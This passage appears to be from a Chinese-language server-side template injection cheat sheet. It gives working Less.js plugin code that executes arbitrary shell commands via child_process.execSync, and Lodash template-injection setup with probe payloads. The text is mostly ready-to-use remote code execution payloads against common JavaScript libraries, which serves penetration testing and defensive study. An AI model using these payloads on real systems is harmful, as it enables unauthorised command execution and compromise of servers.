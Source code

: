 版本2示例RCE插件：

```javascript
functions.add('cmd', function(val) {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```

版本3及以上示例RCE插件

```javascript
//易受攻击的插件 (3.13.1)
registerPlugin({
    install: function(less, pluginManager, functions) {
        functions.add('cmd', function(val) {
            return global.process.mainModule.require('child_process').execSync(val.value).toString();
        });
    }
})
```

---

## Lodash

[官方网站](https://lodash.com/docs/4.17.15)

### Lodash - 基本注入

如何创建模板：

```javascript
const _ = require('lodash');
string = "{{= username}}"
const options = {
  evaluate: /\{\{(.+?)\}\}/g,
  interpolate: /\{\{=(.+?)\}\}/g,
  escape: /\{\{-(.+?)\}\}/g,
};

_.template(string, options);
```

- **string:** 模板字符串。
- **options.interpolate:** 是一个正则表达式，指定HTML *插值* 分隔符。
- **options.evaluate:** 是一个正则表达式，指定HTML *评估* 分隔符。
- **options.escape:** 是一个正则表达式，指定HTML *转义* 分隔符。

出于RCE的目的，模板的分隔符由 **options.evaluate** 参数决定。

```javascript
{{= _.VERSION}}
${= _.VERSION}
<%= _.VERSION %>


{{= _.templateSettings.evaluate }}
${= _.VERSION}
<%= _.VERSION %>

```
